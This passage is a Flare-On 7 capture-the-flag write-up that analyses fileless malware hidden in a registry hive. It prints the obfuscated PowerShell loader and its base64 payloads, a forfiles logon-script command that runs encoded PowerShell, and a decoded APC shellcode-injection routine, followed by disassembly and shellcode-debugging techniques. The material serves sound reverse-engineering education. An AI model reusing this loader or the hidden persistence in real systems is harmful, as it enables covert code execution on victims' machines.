



One of our endpoints was infected with a very dangerous, yet unknown malware
strain that operates in a fileless manner. The malware is - without doubt - an
APT that is the ingenious work of the Cyber Army of the Republic of Kazohinia.

One of our experts said that it looks like they took an existing banking
malware family, and modified it in a way that it can be used to collect and
exfiltrate files from the hard drive.

The malware started destroying the disk, but our forensic investigators were
able to salvage ones of the files. Your task is to find out as much as you can
about the behavior of this malware, and try to find out what was the data that
it tried to steal before it started wiping all evidence from the computer.

Good luck!*




*For your convenience, use the table of contents on your right to quickly navigate to different locations and skip parts that you are rather familiar with.*

## Introduction

Welcome to the very last challenge on Flare-On 7 and to the last post in our series of write-ups for the competition. As we are coming closer and closer to the finish line, things are getting more and more complicated. "Rabbithole", the last challenge did not disappoint and involved a wide range of topics and techniques - with a real-life scenario. As in previous write-ups, we will present you with multiple ways to approach and solve the different steps in this challenge. Hopefully, we will be able to provide you with more tools and habits for challenges you will face in the future (maybe Flare-On 8?), as well as share with you how we think and approach such a challenge. Brace yourself, we are going down the rabbit hole.

```
little alice fell
d
  o
    w
      n
   the hOle,
         bumped her head
         and bruised her soul
```

One thing to keep in mind, and here is the first tip for today, is that whenever the challenge name or description suggests that we are facing a rabbit hole, we need to do everything we can in order to avoid it. Such challenges usually involve a lot of non-valuable code to analyze, and in this writeup, we will try to show how we can approach it while avoiding this rabbit hole.

In this challenge, we are given with a single file called "NTUSER.DAT". Those of you who are familiar with Windows environments will probably know that this name suggests that we are dealing with a user registry hive that contains the user profile and configurations. Let's verify it by executing the `file` command and detect the file type:

```bash
$ file NTUSER.DAT
NTUSER.DAT: MS Windows registry file, NT/2000 or above
```

And indeed, our assumption is true — this file is a registry hive.

Seeing this, and knowing we are facing a reverse engineering challenge, we can already have several guesses of how can a binary or code be integrated into this registry hive. Some of the guesses can be:

1. One or more of the keys have binary blobs as values - **probable**
2. Similar to many "file-less" stages in malware, a script of some kind (Javascript, VBScript, Powershell, batch, ...) will be written to the registry - **probable**
3. This is not, or partially not, a real registry hive, but a hoax - **unlikely**
4. We will need to go over a list of recently opened files and search for clues - **unlikely**
5. We will need to look for recently accessed network locations (like URLs, IPs, ...) to download the challenge - **unlikely**

These are only some of the ideas we had on our minds, and to test our theories against the file, we need to explore it and extract valuable data out of it.

## Analyzing the registry hive

Thankfully, there are many ways we can analyze the registry file. Let's go over some of them, maybe you'll find a way that was similar to yours, and maybe you'll learn some other approaches.

### Method 1: Using the command line from Linux

Command-line lovers? Great! This is for you. Naturally, most Linux distributions do not contain tools to handle and parse Windows registry files, but don't let this stop you. The open-source community released several great projects that can assist us when we want to manipulate, view, and extract such files.

The first thing we do when we face such a challenge is to start from the noisiest approach, and slowly clear our way towards a specific target that we can focus on. Hence, to start, we simply want to dump all the printable text from this `NTUSER.DAT` file. To do this, we used the [floss](https://github.com/fireeye/flare-floss) tool by FireEye's FLARE (**Yes.** The same FLARE that is behind Flare-On), but you can use any other `strings` utility, including the built-in one on Linux (make sure to also dump wide strings), or the utility from SysInternals. The truth is, you can even use Notepad — all we want to do is to observe and inspect the content of the file in order to spot valuable information.

Let's run `floss` and limit the minimum length for strings to be 200 characters. Upon running, we will immediately spot a huge blob of what seems like Base64 blobs and a code of Powershell.

```bash
$ floss -n 200 NTUSER.DAT

FLOSS static ASCII strings
...
...
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
function geapmkxsiw{$kjurpkot=hjmk($args[0]);[System.Text.Encoding]::ASCII.GetString($kjurpkot);};iex(geapmkxsiw("DQokY3FsdGQ9Ig0KW0RsbEltcG9ydChgImtlcm5lbDMyYCIpXWBucHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIEdldEN1cnJlbnRUaHJlYWRJZCgpO2BuDQpbRGxsSW1wb3J0KGAia2VybmVsMzJgIildYG5wdWJsaWMgc3RhdGljIGV4dGVybiBJbnRQdHIgT3BlblRocmVhZCh1aW50IG5vcGV5bGxheCx1aW50IGl0cXhsdnBjLEludFB0ciB3ZW8pO2BuDQpbRGxsSW1wb3J0KGAia2VybmVsMzJgIildYG5wdWJsaWMgc3RhdGljIGV4dGVybiB1aW50IFF1ZXVlVXNlckFQQyhJbnRQdHIgbHhxaSxJbnRQdHIgcWxyLEludFB0ciB0Z29td2psYSk7YG4NCltEbGxJbXBvcnQoYCJrZXJuZWwzMmAiKV1gbnB1YmxpYyBzdGF0aWMgZXh0ZXJuIHZvaWQgU2xlZXBFeCh1aW50IHduaHRpeWd2Yyx1aW50IGlneXYpOyI7DQoNCiR0c2VsY2Z4aHdvPUFkZC1UeXBlIC1tZW1iZXJEZWZpbml0aW9uICRjcWx0ZCAtTmFtZSAnYWx3JyAtbmFtZXNwYWNlIGVsdWVkdmUgLXBhc3N0aHJ1Ow0KDQokZHJ5am1ucHFqPSJmZmN4IjskbmF5dz0iDQpbRGxsSW1wb3J0KGAia2VybmVsMzJgIildYG5wdWJsaWMgc3RhdGljIGV4dGVybiBJbnRQdHIgR2V0Q3VycmVudFByb2Nlc3MoKTtgbg0KW0RsbEltcG9ydChgImtlcm5lbDMyYCIpXWBucHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIFZpcnR1YWxBbGxvY0V4KEludFB0ciB3YXNtaHFmeSxJbnRQdHIgaHRkZ3FoZ3B3YWksdWludCB1eG4sdWludCBtZXBnY3BkYnBjLHVpbnQgeGRqcCk7IjsNCg0KJHl3cXBoc3J3PUFkZC1UeXBlIC1tZW1iZXJEZWZpbml0aW9uICRuYXl3IC1OYW1lICdwcW52b2hsZ2dmJyAtbmFtZXNwYWNlIHJtYiAtcGFzc3RocnU7DQo="));iex(geapmkxsiw("DQoNCiRqa3k9ImVwbmMiOw0KDQoka3doaz0kdHNlbGNmeGh3bzo6T3BlblRocmVhZCgxNiwwLCR0c2VsY2Z4aHdvOjpHZXRDdXJyZW50VGhyZWFkSWQoKSk7DQppZigkeWhpYmJxdz0keXdxcGhzcnc6OlZpcnR1YWxBbGxvY0V4KCR5d3FwaHNydzo6R2V0Q3VycmVudFByb2Nlc3MoKSwwLCRycGwuTGVuZ3RoLDEyMjg4LDY0KSkNCnsNCiBbU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLk1hcnNoYWxdOjpDb3B5KCRycGwsMCwkeWhpYmJxdywkcnBsLmxlbmd0aCk7DQogaWYoJHRzZWxjZnhod286OlF1ZXVlVXNlckFQQygkeWhpYmJxdywka3doaywkeWhpYmJxdykpDQogew0KICAkdHNlbGNmeGh3bzo6U2xlZXBFeCg1LDMpOw0KIH0NCn0NCn=="));

...
...
```

Bingo! We are on the right track. As you saw, by executing this simple command, we already have valuable information to work with. Moreover, now we can confirm that **at least** one of our guesses is right, a script of some kind was written to the registry — a Powershell script.

Equipped with this knowledge, we can now dump the entire DAT file into a `.reg` format. This is a textual Windows Registry "script" format that can be used to import and export registry entries. We can use it now, thanks to the fact that we know that we are looking for textual values, like Base64, and Powershell code. In case that it was a binary blob (hex format), it would not be so useful for us. But it is textual, so we are lucky.

To dump the contents, we can use `hivexregedit` from the `hivex` package for Linux. This set of utilities is very helpful for navigating, manipulating, parsing, and extracting registry files.

```bash
# Use hivexregedit with the "--unsafe-printable-strings" to tell the utility to
# export printable strings as strings and not as converted hexadecimal bytes.
$ hivexregedit --unsafe-printable-strings --export NTUSER.DAT '\' > NTUSER.reg
```

### Method 2: Registry Explorer on Windows

The Windows ecosystem has many tools and utilities to view and manipulate registry files. We decided to use Registry Explorer by [Eric Zimmerman](https://ericzimmerman.github.io). Let's open "NTUSER.DAT" in the software and browse around.



Having access to such a nice GUI tool, we can simply take a few minutes and navigate around the different potentially interesting keys. This will quickly bring us to `\SOFTWARE\Timerpro`.



Alternatively, we can search for some keywords like "powershell", "javascript", "base64" or "function" and quickly arrive at the relevant keys.



The powerful searching capabilities of Registry Explorer helps us to filter out of the noise and find the `D` key under `Timerpro`.

Finally, let's export `Timerpro` and its subkeys to a `.reg` file.



We know that some people used another program called "Registry Viewer" and encountered issues with exporting the registry keys. It is always a good practice to test your results with different tools and verify that they are valid.

## Analyzing the .reg file

We can now open `NTUSER.reg` and inspect it in a text editor. Searching for any substring from the output we saw earlier, will bring us to the relevant place in the file. We searched for "AAAA" and landed in the suspicious key.

```bash
[\SOFTWARE\Timerpro]
"CalTimer"=hex(3):04,a6,7b,e9,33,5c,d6,01
"CurrentByte"=hex(3):04,a6,7b,e9,33,5c,d6,01
"D"=str(1):"$jjw=\"kcsukccudy\";
function hjmk{[System.Convert]::FromBase64String($args[0]);};
[byte[]]$rpl=hjmk(\"6feZAAA0BgBuMWFe34CyvFBFtRPwADwg3yh6fwDaAAAALgAAAAAAAFg+AAAAEAAAAAAAgAEAAAAAEAAAAAAAAAQAAAAAAAAABQACAAAAAAAAUAEAAAQAAAAAAAACAAAAAAAQAAAA...
...
...
```

Looking around, it seems like the entire `SOFTWARE\Timerpro` key and its sub-keys are all "suspicious" and look like potentially related to the challenge. Alright, so it seems like recursively dumping the keys from Timerpro is the way to go.

We wrote a small Python script using `python-registry` that will dump the relevant keys. For your convenience we share it here:

```python
from pathlib import Path
from Registry import Registry

def recursive_dump(key):
    """Recursively dump keys from a given key, to a .bin file into the "keys" directory.
        keys/Timerpro/[subkey.bin]
        keys/Timerpro/[subkeykey]/[subkey.bin]
    """
    # Get the path of the key, remove its prefix and use forward slash
    name = key.path().split('ROOT\\SOFTWARE\\')[1].replace("\\", "/")

    # Create a Path object for the "keys" directory that will contain the dumped files
    key_path = Path("keys", name)
    key_path.mkdir(parents=True, exist_ok=False)

    for val in key.values():
        # Concat the name of the key to the Path
        file_path = (key_path / val.name()).with_suffix(".bin")

        # Dump the value of the key to a file
        file_path.write_bytes(val.raw_data())

    # Recursively call this function with all the subkeys
    list(map(recursive_dump, key.subkeys()))

if __name__ == "__main__":
    # Open the NTUSER.DAT file
    reg = Registry.Registry("NTUSER.DAT")

    # Get the Timerpro key
    key = reg.open("SOFTWARE\\Timerpro")
    recursive_dump(key)
```

```bash
$ exa -T keys/
keys/
└── Timerpro
   ├── CalTimer.bin
   ├── CurrentByte.bin
   ├── D.bin
   ├── DatNew.bin
   ├── DayOld.bin
   ├── DiMap.bin
   ├── FalseLanguage.bin
   ├── ScaleThr.bin
   ├── ScreenWeb.bin
   ├── SoftwareColumn.bin
   ├── SolutionDat.bin
   ├── ThemeDay.bin
   ├── TimerVersion.bin
   ├── VersiScreen.bin
   ├── WebFalse.bin
   ├── Columncurrent
   │  ├── CaclibRegionmap.bin
   │  ├── CalccalcLogicnew.bin
   │  ├── CalciconLogicthre.bin
   │  ├── DatethrWorkscreen.bin
   │  ├── DiskproIdbui.bin
   │  ├── InflibExplorertru.bin
   │  ├── PrintsolutSavetheme.bin
   │  ├── ProtocolmagicWordeskt.bin
   │  ├── RowmapGuiprotocol.bin
   │  ├── ScreenserProtocolacces.bin
   │  ├── SoflogicMagiclink.bin
   │  ├── TasknetCharconso.bin
   │  ├── ThemespellDaytheme.bin
   │  ├── TimermagSelink.bin
   │  ├── WebmodeThemearchive.bin
   │  ├── WebsoftwareProcesstemplate.bin
   │  └── WordlibSystemser.bin
   ├── Languagetheme
   │  ├── CaclibRegionmap.bin
   │  ├── CalccalcLogicnew.bin
   │  ├── DatethrWorkscreen.bin
   │  ├── InfspellTimerver.bin
   │  ├── KeyboardtimerWolib.bin
   │  ├── MonitornewWarningmap.bin
   │  ├── NewinRegionsea.bin
   │  ├── PrintsolutSavetheme.bin
   │  ├── ProcesscharProtocomedia.bin
   │  ├── ProtocolmagicWordeskt.bin
   │  ├── RowmapGuiprotocol.bin
   │  ├── ScreenserProtocolacces.bin
   │  ├── SoflogicMagiclink.bin
   │  ├── ThemespellDaytheme.bin
   │  ├── ThemewebInnet.bin
   │  ├── TimerscreenClientsecur.bin
   │  ├── WebmodeThemearchive.bin
   │  ├── WebsoftwareProcesstemplate.bin
   │  └── WordlibSystemser.bin
   └── WordTimer
      └── MAIN.bin
```

## Analyzing the Powershell script

From the quick look we took on the dumped files, it seems like `D.bin` is the most interesting and actionable one as it contains the Powershell code we dumped from `Timerpro/D`. This Powershell code is executed by a logon script in `SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy\Scripts\Logon\0\0` as can be seen in the following snippet from NTUSER.reg:

```bash
[\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy\Scripts\Logon\0\0]
"ExecTime"=hex(b):00,00,00,00,00,00,00,00,00,00,00,00,00,00,00,00
"IsPowershell"=dword:00000000
"Parameters"=str(1):"/p C:\WINDOWS\system32 /s /c \"cmd /c @file -ec aQBlAHgAIAAoAGcAcAAgACcASABLAEMAVQA6AFwAUwBPAEYAVABXAEEAUgBFAFwAVABpAG0AZQByAHAAcgBvACcAKQAuAEQA\" /m p*ll.*e"
"Script"=str(1):"C:\Windows\System32\forfiles.exe"
```

As it is clear that there is a base64 encoding applied in the Powershell code, it will be a wise idea to clean it up a little bit. Overall, the structure of the script is as follows:

```powershell
$jjw = "kcsukccudy";

# Receives a base64 encoded string and returns it as decoded bytes
function hjmk{
    [System.Convert]::FromBase64String($args[0]);
};

# Define a byte array from a base64 encoded blob
[byte[]] $rpl = hjmk("6feZAAA0BgBuMWFe...[ a huge base64 blob ]...")

# Receives a base64 encoded string and returns it as ASCII string
function geapmkxsiw {
    $kjurpkot = hjmk($args[0]);
    [System.Text.Encoding]::ASCII.GetString($kjurpkot);
};

# Calls Invoke-Expression to dynamically execute powershell code from a script
# The base64 encoded content will be decoded using the utility functions above
iex (geapmkxsiw("DQokY3FsdGQ...[base64 blob]..."));
iex (geapmkxsiw("DQoNCiRqa3k...[base64 blob]..."));
```

The logic of the first stage is very simple. We have three base64 encoded blobs embedded in the script. The first one is huge and used as a byte-array (rather than an ASCII string). This, in addition to the visible amount of null-bytes (encoded as `AAAA`), tells us that this is likely to be a binary code.

The next two base64 encoded blobs are decoded and passed to `iex` (alias for `Invoke-Expression`). They are rather short and treated as ASCII. There is no doubt, they are another layer of Powershell code. The `$rpl` variable (the binary code) is not referenced in this layer, so it is likely to be used in the next one.

There are many ways to decode the base64, starting from the 2nd layer. You can choose your favorite or follow one of our preferred options:

1. Replace `iex` with `Write-Host` - This is an easy and useful way to handle encoded or encrypted code in scripts of different kinds. We simply replace the execution commands with print commands. It works great for Powershell, Shell scripts, Javascript, VB Scripts, and others.

    ```powershell
    # Replace 'iex' with 'Write-Host'
    Write-Host (geapmkxsiw("DQokY3FsdGQ...[base64 blob]..."));
    Write-Host (geapmkxsiw("DQoNCiRqa3k...[base64 blob]..."));2. 
    ```

2. Use extensions from your IDE. This is how it looks like with Crypto Tools for VSCode.

    

3. Other tools like [Cyber Chef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=RFFva1kzRnNkR1E5SWcwS1cwUnNiRWx0Y0c5eWRDaGdJbXRsY201bGJETXlZQ0lwWFdCdWNIVmliR2xqSUhOMFlYUnBZeUJsZUhSbGNtNGdTVzUwVUhSeUlFZGxkRU4xY25KbGJuUlVhSEpsWVdSSlpDZ3BPMkJ1RFFwYlJHeHNTVzF3YjNKMEtHQWlhMlZ5Ym1Wc016SmdJaWxkWUc1d2RXSnNhV01nYzNSaGRHbGpJR1Y0ZEdWeWJpQkpiblJRZEhJZ1QzQmxibFJvY21WaFpDaDFhVzUwSUc1dmNHVjViR3hoZUN4MWFXNTBJR2wwY1hoc2RuQmpMRWx1ZEZCMGNpQjNaVzhwTzJCdURRcGJSR3hzU1cxd2IzSjBLR0FpYTJWeWJtVnNNekpnSWlsZFlHNXdkV0pzYVdNZ2MzUmhkR2xqSUdWNGRHVnliaUIxYVc1MElGRjFaWFZsVlhObGNrRlFReWhKYm5SUWRISWdiSGh4YVN4SmJuUlFkSElnY1d4eUxFbHVkRkIwY2lCMFoyOXRkMnBzWVNrN1lHNE5DbHRFYkd4SmJYQnZjblFvWUNKclpYSnVaV3d6TW1BaUtWMWdibkIxWW14cFl5QnpkR0YwYVdNZ1pYaDBaWEp1SUhadmFXUWdVMnhsWlhCRmVDaDFhVzUwSUhkdWFIUnBlV2QyWXl4MWFXNTBJR2xuZVhZcE95STdEUW9OQ2lSMGMyVnNZMlo0YUhkdlBVRmtaQzFVZVhCbElDMXRaVzFpWlhKRVpXWnBibWwwYVc5dUlDUmpjV3gwWkNBdFRtRnRaU0FuWVd4M0p5QXRibUZ0WlhOd1lXTmxJR1ZzZFdWa2RtVWdMWEJoYzNOMGFISjFPdzBLRFFva1pISjVhbTF1Y0hGcVBTSm1abU40SWpza2JtRjVkejBpRFFwYlJHeHNTVzF3YjNKMEtHQWlhMlZ5Ym1Wc016SmdJaWxkWUc1d2RXSnNhV01nYzNSaGRHbGpJR1Y0ZEdWeWJpQkpiblJRZEhJZ1IyVjBRM1Z5Y21WdWRGQnliMk5sYzNNb0tUdGdiZzBLVzBSc2JFbHRjRzl5ZENoZ0ltdGxjbTVsYkRNeVlDSXBYV0J1Y0hWaWJHbGpJSE4wWVhScFl5QmxlSFJsY200Z1NXNTBVSFJ5SUZacGNuUjFZV3hCYkd4dlkwVjRLRWx1ZEZCMGNpQjNZWE50YUhGbWVTeEpiblJRZEhJZ2FIUmtaM0ZvWjNCM1lXa3NkV2x1ZENCMWVHNHNkV2x1ZENCdFpYQm5ZM0JrWW5CakxIVnBiblFnZUdScWNDazdJanNOQ2cwS0pIbDNjWEJvYzNKM1BVRmtaQzFVZVhCbElDMXRaVzFpWlhKRVpXWnBibWwwYVc5dUlDUnVZWGwzSUMxT1lXMWxJQ2R3Y1c1MmIyaHNaMmRtSnlBdGJtRnRaWE53WVdObElISnRZaUF0Y0dGemMzUm9jblU3RFFvPQoKRFFvTkNpUnFhM2s5SW1Wd2JtTWlPdzBLRFFva2EzZG9hejBrZEhObGJHTm1lR2gzYnpvNlQzQmxibFJvY21WaFpDZ3hOaXd3TENSMGMyVnNZMlo0YUhkdk9qcEhaWFJEZFhKeVpXNTBWR2h5WldGa1NXUW9LU2s3RFFwcFppZ2tlV2hwWW1KeGR6MGtlWGR4Y0doemNuYzZPbFpwY25SMVlXeEJiR3h2WTBWNEtDUjVkM0Z3YUhOeWR6bzZSMlYwUTNWeWNtVnVkRkJ5YjJObGMzTW9LU3d3TENSeWNHd3VUR1Z1WjNSb0xERXlNamc0TERZMEtTa05DbnNOQ2lCYlUzbHpkR1Z0TGxKMWJuUnBiV1V1U1c1MFpYSnZjRk5sY25acFkyVnpMazFoY25Ob1lXeGRPanBEYjNCNUtDUnljR3dzTUN3a2VXaHBZbUp4ZHl3a2NuQnNMbXhsYm1kMGFDazdEUW9nYVdZb0pIUnpaV3hqWm5ob2QyODZPbEYxWlhWbFZYTmxja0ZRUXlna2VXaHBZbUp4ZHl3a2EzZG9heXdrZVdocFltSnhkeWtwRFFvZ2V3MEtJQ0FrZEhObGJHTm1lR2gzYnpvNlUyeGxaWEJGZUNnMUxETXBPdzBLSUgwTkNuME5Dbj09), `base64` utility for Linux, or simply Python

We have decoded the first layer, and now we can have a look at the readable Powershell code:

```powershell
# Define a byte array from a base64 encoded blob
[byte[]] $rpl = hjmk("6feZAAA0BgBuMWFe...[ a huge base64 blob ]...")

# Define type definitions for Windows API functions: GetCurrentProcess, VirtualAllocEx
$nayw = "[DllImport(`"kernel32`")]
public static extern IntPtr GetCurrentProcess();
[DllImport(`"kernel32`")]
public static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw = Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;

$kwhk = $tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
    [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
    if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
    {
        $tselcfxhwo::SleepEx(5,3);
    }
}
```

Looking at the decoded script, it is now much clearer what it is doing. After importing and defining Windows API functions, the Powershell script is allocating memory for the huge binary blob using `VirtualAllocEx`, copies the memory to it using `Copy`, and then uses Asynchronous Procedure Call (APC) to asynchronously run the binary code. By entering sleep, it enters an "alertable" state and the execution of the code is triggered.

Simply put, the Powershell code is writing the binary code to the memory and executing it. We can now use base64 to decode the binary blob and save it to a file.

## Analyzing the Shellcode

After dumping the shellcode to a file named `shellcode.bin` we can open it in a disassembler of our choice and inspect the code at offset 0x00, as this is the location from which the execution begins.

The first instruction on our 64-bit binary is a `jmp` to `0x99fc`. It is common to see a shellcode begins with a jump. 

```asm
$ r2 shellcode.bin

# Disassemble one instruction
[0x00000000]> pid 1
0x00000000  jmp 0x99fc
```

Let us navigate to `0x99fc` and inspect the instructions on this address.

```asm
[0x000099fc]> pid 30

0x000099fc  mov qword [rsp + 8], rbx
0x00009a01  push rbp
...
0x00009a13  mov rax, qword gs:[0x30]
0x00009a1c  xor ebp, ebp
0x00009a1e  mov rdi, rcx
0x00009a21  mov rdx, qword [rax + 0x60]
0x00009a25  xor esi, esi
0x00009a27  mov r13, 0xfffffffffffff000
0x00009a2e  mov rax, qword [rdx + 0x18]
0x00009a32  xor r12d, r12d
0x00009a35  mov qword [rsp + 0x108], rbp
0x00009a3d  mov rdx, qword [rax + 0x10]
0x00009a41  mov qword [rsp + 0x110], rsi
0x00009a49  lea r14d, [rbp + 1]
0x00009a4d  mov rax, qword [rdx]
0x00009a50  mov rcx, qword [rax + 0x30]
0x00009a54  and rcx, r13
0x00009a57  movsxd rax, dword [rcx + 0x3c]
0x00009a5b  mov edx, dword [rax + rcx + 0x88]
...
```

If this pattern looks familiar to you, you are not alone. The shellcode is accessing its [Thread Environment Block](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block) by reading `gs:[0x30]`, and then navigates through different structures and offsets in the headers of the process. The TEB contains information about the process's thread, including a pointer to another very important structure called `Process Environment Block` (PEB) where information about the process itself (image path, command-line arguments, loaded modules and similar) is stored. This looks like a typical loader. Ready for a quick journey inside the PE header? Let's go!

Follow the comments in the code block below to see the different structures that are used by the shellcode.

```asm
0x00009a13  mov rax, qword gs:[0x30] ; Access the TEB for 64-bit (TEB64)
0x00009a1c  xor ebp, ebp
0x00009a1e  mov rdi, rcx
0x00009a21  mov rdx, qword [rax + 0x60] ; Access the PEB for 64-bit (PEB64 = TEB64 + 0x60)
0x00009a25  xor esi, esi
0x00009a27  mov r13, 0xfffffffffffff000

; Access the Ldr structure that contains information about all of the loaded modules in the current process
0x00009a2e  mov rax, qword [rdx + 0x18] ; Ldr = PEB64 + 0x18
0x00009a32  xor r12d, r12d
0x00009a35  mov qword [rsp + 0x108], rbp
0x00009a3d  mov rdx, qword [rax + 0x10] ; Access InMemoryOrderLinks for 64-bit
0x00009a41  mov qword [rsp + 0x110], rsi
0x00009a49  lea r14d, [rbp + 1]
0x00009a4d  mov rax, qword [rdx] ; Access the first loaded module (ntdll.dll)
0x00009a50  mov rcx, qword [rax + 0x30] ; Reads Ntdll's base address
```

Essentially, the shellcode parses its own header and navigates through the different structures until it reaches the base address of Ntdll. Let's continue and explore what it does now that it has access to Ntdll's base address.

```asm
0x00009a57  movsxd rax, dword [rcx + 0x3c] ; Read the start offset of the PE header
0x00009a5b  mov edx, dword [rax + rcx + 0x88] ; Access the Export Table (PE_Header64 + 0x88)
...
0x00009a6a  lea rax, [rcx + rdx]
0x00009a6e  mov r12d, r14d
0x00009a71  mov r11d, dword [rax + 0x1c] ; AddressOfFunctions (Export Address Table RVA)
0x00009a75  mov r10d, dword [rax + 0x20] ; AddressOfNames (Name Pointer RVA)
0x00009a79  mov r8d, dword [rax + 0x24] ; AddressOfNameOrdinals (Ordinal Table RVA)
0x00009a7d  mov ebx, dword [rax + 0x18] ; NumberOfNames (Number of Name Pointers)
```

The shellcode is then navigating to the Export Table of ntdll.dll. Most likely, it will soon iterate through the export table in search of specific functions that will help it bootstrap the code.

We open the shellcode in IDA as a 64-bit binary file and tell IDA to treat the data in offsets `0x00` and `0x000099fc` as code. We then define the code at `0x000099fc` as a function. It is highly recommended to use IDA's decompiler when dealing with code that accesses the PE header, as it will look much better. 



If you don't have access to IDA or its decompiler, any other solution will do. We will only show it here as it is easier to understand some of the functionalities.



This is the decompiled code that is equivalent to the disassembly we saw earlier:



As it is very messy, we can use some tricks to clean it and have a very nice output. Starting from importing the relevant structures. Press `Ctrl+F11` or go to "View -> Open Subviews → Type libraries" and press `Insert` to add a new type library. Search for "ntapi" and click "OK". Then go back to the decompiler and press `F5` again.



Looks better, right? Let's improve it a little bit more and tell IDA that `v6` is pointing to the Export Table. Right-click on the variable and choose "Convert to struct". Then, choose the "IMAGE_EXPORT_DIRECTORY" structure and press "OK". We can now add some names and comments and have a great output that we can work with.



Having access to these values, the shellcode is now iterating over the exported functions and look for two specific ones: `LdrLoadDll` and `LdrGetProcedureAddress`.



The pointers to these exported functions are saved to two variables we named `ptrLdrGetProcedureAddress` and `ptrLdrLoadDll`. We can now expect to see these functions called. The problem is, that it is not easy to spot dynamic calls in IDA's decompiler view, especially in big and noisy functions, as the syntax highlighting lacks highlights for dynamic function calls (e.g calling a variable).

This examples shows how hard it is to notice that `v31` is dynamically called:



### Highlighting dynamic calls in the decompiler

To ease our work, we usually use this tiny script that highlights these calls for us.

```python
import FIDL.decompiler_utils as du

func = du.controlFlowinator(ea=0x99FC, fast=False)
color = 0xfff7d6 # Soft blue

# Iterate through all the calls from this function
for call in func.calls:
    # Make sure it is a valid function call 
    if call.ea != 0xFFFFFFFFFFFFFFFF:
        # Color the line of the call
        du.display_node(func, call.node, color)
```

After running this small script, we can see that calls are now highlighted - makes it impossible to miss them.



### Entering the first stage

Now that this part is behind us, we are ready to move on and see how does the shellcode load libraries and API functions. In fact, it is rather simple. The shellcode holds a list of relative offsets at its start, and these offsets point to structures it needs in order to work. Some of these structs are names of DLL files (ntdll.dll and kernel32.dll) and names of API functions to load.



Then, two loops are iterating through the libraries and API functions and load them using `LdrLoadDll` and `LdrGetProcedureAddress`. When done loading and setting up the required API functions, it then parses another value from its table. It reads the value `0x3E58` from offset `0x28` and moves it to `r10`. Then, at `0x9D1C` the register is being called (it is easier for us to spot this call after executing our helper script).



We can manually navigate to `0x3E58`, define it as a function and name it `first_stage_wrapper`. Then, we can go back to `call  r10`, click on "r10" and press `Alt+F1`. Then, in the dialog change "r10" to `first_stage_wrapper`.



All we have in `0x35E8` is a small wrapper around another function `0x52A8`. After a quick look at the function at `0x52A8` and some of the functions it calls to, it was clear to us that we need to step up our game and move to debug.

### Setting up a debug environment

Debugging the shellcode will allow us to navigate faster through the different functions, inspect memory writes, and analyze the code that we believe to be more relevant to the flow of the function.

We all know how to debug an executable file, but how should we approach to debugging a shellcode? After all, a shellcode is a position-independent-code and it needs something to call and trigger its execution.

Well, there are several ways — let's go over some of them quickly:

**Executing the original Powershell Script**
It may seem like a long time ago, but at the beginning of this challenge, we had a tiny Powershell script that decoded the Base64-encoded shellcode and executed it using APC. As this is the original flow of the attack, it may be wise to execute our shellcode using the original script. One can simply double-click the `.ps1` file and attach a debugger to the newly created `powershell.exe`, right? Well... yes, but it might not be the greatest idea as the program will do a lot of stuff before we will attach the debugger to it, and this might be problematic.

Can we make the shellcode wait for us before being executed? Yes! To solve this, we can prepend the Base64-decoded shellcode with `EB FE`. These magical two bytes will cause the shellcode to hang in an infinite loop as the instruction simply jumps to itself infinitely. Then, we will be able to attach a debugger to the shellcode, grab a cup of coffee, relax in our chair, and point the instruction pointer to the real start of the shellcode.

**Use an external shellcode runner program**
The infosec community is dealing with the "how to run a shellcode" question for many years. To solve this problem, many had written programs to execute shellcodes. Check [BlobRunner](https://github.com/OALabs/BlobRunner) for example. These tools will read the shellcode (usually from a file), allocate an executable memory region for it, write it to the newly allocated memory, and execute it.

**Insert the shellcode into an already-compiled memory**
In this technique we go to the entry point of a binary of our choice, carve out the original code and replace it with our shellcode. This way, when the loader will load the program, it will execute the program from its entry point, which now contains our shellcode. This technique is useful especially with small and self-contained shellcodes that are less prone to problems.

While these techniques and others will work and allow you to debug the shellcode, they have their issues. One of the most annoying issues, at least in the first two approaches, is that the shellcode will be executed from a dynamically allocated memory space and will rely on our infinite loop. This is especially problematic when we wish to work on a project file (e.g IDA's IDB), rename locations, add comments, and more. The memory for the shellcode will usually be allocated to different addresses, and it will require us to do some nasty tricks and keep our IDB rebased properly. In other cases, when collaborating on the analysis of the shellcode, the addresses will differ between the machines of the different analysts and between every execution.

To solve this, we can use another technique that will make our life easier. Bookmark this part as you will be able to utilize this technique in many other places as reverse engineers.

In this approach, we will write a very small C program that will contain two parts. The first is a naive `.c` file that has a static char array to hold our shellcode and a one-line `main` function that will call a function that will jump to our shellcode,

**main.c:**

```cpp
#include <Windows.h>

static unsigned char _sc[86016UL + 1] = {
    0xE9, 0xF7, 0x99, 0x00, 0x00, 0x34, 0x06, 0x00, [... truncated ...] 0x00, 0x00, 0x00, 0x00
};

